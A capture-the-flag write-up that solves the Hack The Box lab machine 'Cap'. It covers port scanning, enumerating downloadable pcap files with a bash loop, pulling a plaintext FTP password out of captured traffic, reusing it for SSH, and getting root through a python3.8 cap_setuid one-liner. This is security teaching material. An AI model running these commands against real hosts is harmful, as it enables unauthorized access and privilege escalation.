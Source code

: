 ```yaml
---
title: "[EASY] HTB-Cap"
draft: false
tags:
  - htb
  - linux
  - ftp
  - pcap
  - wireshark
  - setuid
  - capabilities
---
```

![](https://i.imgur.com/uyzHwGN.png)

## Information Gathering
### Rustscan

**Rustscan** finds **FTP**, **SSH**, and **HTTP** open:

```bash
┌──(yoon㉿kali)-[~/Documents/htb/cap]
└─$ rustscan --addresses 10.10.10.245 --range 1-65535
.----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
| {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
| .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
`-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
The Modern Day Port Scanner.
________________________________________
: https://discord.gg/GFrQsGy           :
: https://github.com/RustScan/RustScan :
 --------------------------------------
<snip>
Host is up, received conn-refused (1.6s latency).
Scanned at 2024-04-06 11:41:43 EDT for 4s

PORT   STATE SERVICE REASON
21/tcp open  ftp     syn-ack
22/tcp open  ssh     syn-ack
80/tcp open  http    syn-ack

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 6.91 seconds
```

### Nmap

Nmap finds nothing much:

```bash
┌──(yoon㉿kali)-[~/Documents/htb/cap]
└─$ sudo nmap -sVC -p 21,22,80 10.10.10.245                 
[sudo] password for yoon: 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-04-06 11:42 EDT
Nmap scan report for 10.10.10.245 (10.10.10.245)
Host is up (0.98s latency).

PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 fa:80:a9:b2:ca:3b:88:69:a4:28:9e:39:0d:27:d5:75 (RSA)
|   256 96:d8:f8:e3:e8:f7:71:36:c5:49:d5:9d:b6:a4:c9:0c (ECDSA)
|_  256 3f:d0:ff:91:eb:3b:f6:e1:9f:2e:8d:de:b3:de:b2:18 (ED25519)
80/tcp open  http    gunicorn
|_http-server-header: gunicorn
|_http-title: Security Dashboard
| fingerprint-strings: 
|   FourOhFourRequest: 
<snip>
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 249.78 seconds
```

## Enumeration
### FTP - TCP 21

It seems like anonymous login is not allowed, I would have to come back to FTP with valid credentials:

![](https://i.imgur.com/2sL4k9k.png)



### HTTP - TCP 80

The website shows a security dashboard for user **Nathan**:

![](https://i.imgur.com/NwArXML.png)


Going to `/capture` will read me to `http://10.10.10.245/data/1`, where I can download packets pcap file:

![](https://i.imgur.com/8hONvPE.png)


After downloading, I can see all the packets that is being sent from my IP to the target server:

![](https://i.imgur.com/pGmkEWY.png)


`http://10.10.10.245/netstat` shows network running on server:

![](https://i.imgur.com/2lp23J1.png)


`http://10.10.10.245/ip` shows the result of **ifconfig** command:

![](https://i.imgur.com/I1JJOii.png)

Directory Bruteforcing finds nothing intriguing:

`sudo feroxbuster -u http://10.10.10.245 -n -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -C 404`

![](https://i.imgur.com/lwBVQxd.png)

## Shell as Nathan
### Bruteforce on /download

I tried Command Injection on `/netstat` and `/ip` parameters but both weren't vulnerable. So I will move on to bruteforcing `/data/<number>` since there might be a download from other users as well.

Using bash script, I can automate this procedure, which will download files from `/download/0` to `/download/100`:

```bash
#!/bin/bash

# Loop from 1 to 100
for ((i = 0; i <= 100; i++)); do
    url="http://10.10.10.245/download/$i"

    # Check if the URL returns non-empty content
    response=$(curl -s -o /dev/null -w "%{http_code}" "$url")
    
    # If the response is not empty (HTTP status 200), download the file
    if [ "$response" == "200" ]; then
        echo "Downloading file $i..."
        curl -O "$url"
    else
        echo "Skipping file $i (HTTP $response)"
    fi
done
```


Running the bash script discovered one more download which is /download/0`:

![](https://i.imgur.com/DfI7eul.png)


Before analyzing the file **0** with **Wireshark**, I will hunt for keyword **pas** and it discovers: **Buck3tH4TF0RM3!**

`strings 0 | grep -i 'pass'`

![](https://i.imgur.com/pUKoWji.png)

Opening file **0** using Wireshark shows that found password is from user **Nathan** during he's FTP authentication:

![](https://i.imgur.com/kzod7lD.png)

We can see it in plain text by following the TCP Stream:

![](https://i.imgur.com/VOoRwmJ.png)



### FTP nathan

Using the found credentials, I can sign-in to FTP as **nathan**:

![](https://i.imgur.com/MRghB9l.png)


Below is how `/var/www/html` is consisted for this server and we can view all the **.pcap** files on `/var/www/html/upload`:

![](https://i.imgur.com/VTSDg5E.png)

Since FTP shell is restrictive to commands, I tried to upload reverse shell to `/var/www/html` but permission was denied for all the folder.

Luckily, **nathan** is reusing the same password for his SSH connection as well so I can obtain a stable shell through SSH.

## Privesc: nathan to root

Running **linpeas.sh** discovers **capabilites** on **python3.8**:


![](https://i.imgur.com/vL4vE6P.png)

**cap_setuid** has the following ability according to the man page:

> * Make arbitrary manipulations of process UIDs (setuid(2), setreuid(2), setresuid(2), setfsuid(2)); * forge UID when passing socket credentials via UNIX domain sockets; * write a user ID mapping in a user namespace (see user_namespaces(7)).


I can abuse this capability following guide from [GTFOBins](https://gtfobins.github.io/gtfobins/python/): 

![](https://i.imgur.com/LlCkMFT.png)


Running the command from above, It instantly give me shell as the root:

`/usr/bin/python3.8 -c 'import os; os.setuid(0); os.system("/bin/sh")'`

![](https://i.imgur.com/GgiF1oF.png)


## References
- https://gtfobins.github.io/gtfobins/python/